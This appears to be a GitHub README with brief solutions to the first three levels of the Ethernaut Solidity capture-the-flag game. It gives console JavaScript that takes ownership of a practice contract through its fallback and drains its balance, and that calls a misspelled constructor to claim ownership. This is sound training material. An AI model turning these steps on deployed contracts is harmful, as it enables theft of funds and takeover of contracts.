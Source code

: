 # The Ethernaut CTF Challenge Solutions

*The Ethernaut is a Web3/Solidity based wargame inspired by [overthewire.org](https://overthewire.org/wargames/), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players.*

Brief solutions for OpenZeppelin's Ethernaut CTF. Writeups pending.

**Completed**

[Level 0: Hello Ethernaut](#HelloEthernaut)  
[Level 1: Fallback](#Fallback)  
[Level 2: Fallout](#Fallout)  

<!---

**Pending**

[Level 3: Coin Flip](#CoinFlip)  
[Level 4: Telephone](#Telephone)  
[Level 5: Token](#Token)  
[Level 6: Delegation](#Delegation)  
[Level 7: Force](#Force)  
[Level 8: Vault](#Vault)  
[Level 9: King](#King)  
[Level 10: Re-entrancy](#Reentrancy)  
[Level 11: Elevator](#Elevator)  
[Level 12: Privacy](#Privacy)  
[Level 13: Gatekeeper One](#GatekeeperOne)  
[Level 14: Gatekeeper Two](#GatekeeperTwo)  
[Level 15: Naught Coin](#NaughtCoin)  
[Level 16: Preservation](#Preservation)  
[Level 17: Recovery](#Recovery)  
[Level 18: Magic Number](#MagicNumber)  
[Level 19: Alien Codex](#AlienCodex)  
[Level 20: Denial](#Denial)  
[Level 21: Shop](#Shop)  
[Level 22: Dex](#Dex)  
[Level 23: Dex Two](#DexTwo)  
[Level 24: Puzzle Wallet](#PuzzleWallet)  
[Level 25: Motorbike](#Motorbike)  
[Level 26: Double Entry Point](#DoubleEntryPoint)  
[Level 27: Good Samaritan](#GoodSamaritan)  
-->

## Requirements
- [Metamask](https://metamask.io/)


## <a name='HelloEthernaut'></a> 0. Hello Ethernaut
> This level walks you through the very basics of how to play the game.


```js
// We call the functions in the order as suggested 
> await contract.info()
< 'You will find what you need in info1().'

> await contract.info1()
< 'Try info2(), but with "hello" as a parameter.'

> await contract.info2("hello")
< 'The property infoNum holds the number of the next info method to call.'

> x = contract.infoNum()
// We expand the promise to reveal "42"

> await contract.info42()
< 'theMethodName is the name of the next method.'

> await contract.theMethodName()
< 'The method name is method7123949.'

> await contract.method7123949()
< 'If you know the password, submit it to authenticate().'

> await contract.password()
< 'ethernaut0'

> await contract.authenticate("ethernaut0")
```




## <a name='Fallback'></a> 1. Fallback
> You will beat this level if:
> 1. You claim ownership of the contract
> 2. You reduce its balance to 0

```js
// First, we contribute some ether:
await contract.contribute({value: 5})

// Then we send some ether to make us the owner
sendTransaction({from: player, to: instance, value: 5})

// Verify we have claimed ownership
await contract.owner()

// Reduce balance to 0
await contract.withdraw()
```

## <a name='Fallout'></a> 2. Fallout
> Claim ownership of the contract to complete this level.

The contract's constructor is incorrectly titled `Fal1out` instead of `Fallout`. We can call it to claim ownership.

```js

// Call the function to claim ownership
contract.Fal1out()

// Verify we have claimed ownership
await contract.owner() 
```